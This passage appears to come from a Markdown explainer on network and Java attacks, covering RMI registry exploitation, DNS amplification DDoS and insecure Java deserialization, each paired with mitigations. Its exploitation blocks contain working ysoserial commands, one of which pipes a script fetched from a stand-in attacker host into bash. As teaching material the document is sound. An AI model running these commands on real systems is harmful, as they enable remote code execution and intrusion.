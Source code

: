 #### **Exploitation**  
```bash
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit target 1099 CommonsCollections5 "curl http://attacker.com/shell.sh | bash"
```  

#### **Mitigation**  
- **Disable RMI registry** if unused.  
- **Use JMX authentication**.  
- **Patch deserialization libraries**.  

---

### **5. DNS Amplification Attack (DDoS)**
#### **What It Is**  
A reflection-based DDoS attack using open DNS resolvers to flood a victim with large responses.

#### **How It Works**  
- **Step 1**: Spoof the victim’s IP as the source.  
- **Step 2**: Send small queries (e.g., `ANY` requests) to DNS resolvers.  
- **Amplification**: Responses are **50–100x larger** than requests.  

#### **Example**  
```plaintext
Attacker (1KB query) → Open DNS Resolver (50KB response) → Victim
```  

#### **Mitigation**  
- **Rate-limit DNS responses** (e.g., `iptables`).  
- **Disable open recursion** on DNS servers.  
- **Use BCP38** (anti-spoofing filters).  

---

### **6. Insecure Java Deserialization**
#### **What It Is**  
Exploiting unsafe deserialization of objects in Java apps to execute arbitrary code.

#### **How It Works**  
- **Step 1**: Find a deserialization endpoint (e.g., HTTP, RMI).  
- **Step 2**: Craft a malicious serialized object (e.g., using **ysoserial**).  
- **Gadget Chains**: Leverage libraries like `CommonsCollections`, `Groovy`, or `Jackson`.  

#### **Exploitation**  
```bash
java -jar ysoserial.jar CommonsCollections5 "id" > payload.bin
curl --data-binary @payload.bin http://vuln-app/deserialize
```  

#### **Mitigation**  
- **Use `ObjectInputFilter` (Java 9+)**.  
- **Replace Java serialization** with JSON/Protobuf.  
- **Patch libraries** (e.g., Apache Commons).  

---